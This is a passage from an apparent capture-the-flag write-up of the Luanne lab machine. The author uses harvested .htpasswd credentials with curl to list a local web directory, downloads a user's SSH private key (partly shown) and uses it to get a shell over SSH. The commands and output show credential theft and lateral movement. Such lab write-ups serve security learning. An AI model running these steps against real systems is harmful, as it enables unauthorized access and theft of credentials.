 I can add in the creds from the `.htpasswd` file and they work:

```

$ curl -s http://127.0.0.1:3001/~r.michaels/ -u webapi_user:iamthebest
<!DOCTYPE html>
<html><head><meta charset="utf-8"/>
<style type="text/css">
table {
        border-top: 1px solid black;
        border-bottom: 1px solid black;
}
th { background: aquamarine; }
tr:nth-child(even) { background: lavender; }
</style>
<title>Index of ~r.michaels/</title></head>
<body><h1>Index of ~r.michaels/</h1>
<table cols=3>
<thead>
<tr><th>Name<th>Last modified<th align=right>Size
<tbody>
<tr><td><a href="../">Parent Directory</a><td>16-Sep-2020 18:20<td align=right>1kB
<tr><td><a href="id_rsa">id_rsa</a><td>16-Sep-2020 16:52<td align=right>3kB
</table>
</body></html>

```

Directory listing is enabled (`-X` in the command line), and this shows a single file, `id_rsa`. One more `curl` returns the private key:

```

$ curl -s http://127.0.0.1:3001/~r.michaels/id_rsa -u webapi_user:iamthebest
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAvXxJBbm4VKcT2HABKV2Kzh9GcatzEJRyvv4AAalt349ncfDkMfFB
...[snip]...

```

A note - This is not reading the private key from the users `~/.ssh` directory. For some reason, the user must have put their private key intentionally in their `~/public_html` directory. Perhaps they figured since it’s only on localhost it was less at risk there. Then again, it’s not clear what use it provides the user there either.

### Shell via SSH

With a copy of this key, I can get a shell as r.michaels:

```

oxdf@parrot$ ssh -i ~/keys/luanne-r.michaels r.michaels@10.10.10.218
Last login: Fri Sep 18 07:06:51 2020
NetBSD 9.0 (GENERIC) #0: Fri Feb 14 00:06:28 UTC 2020

Welcome to NetBSD!

luanne$

```

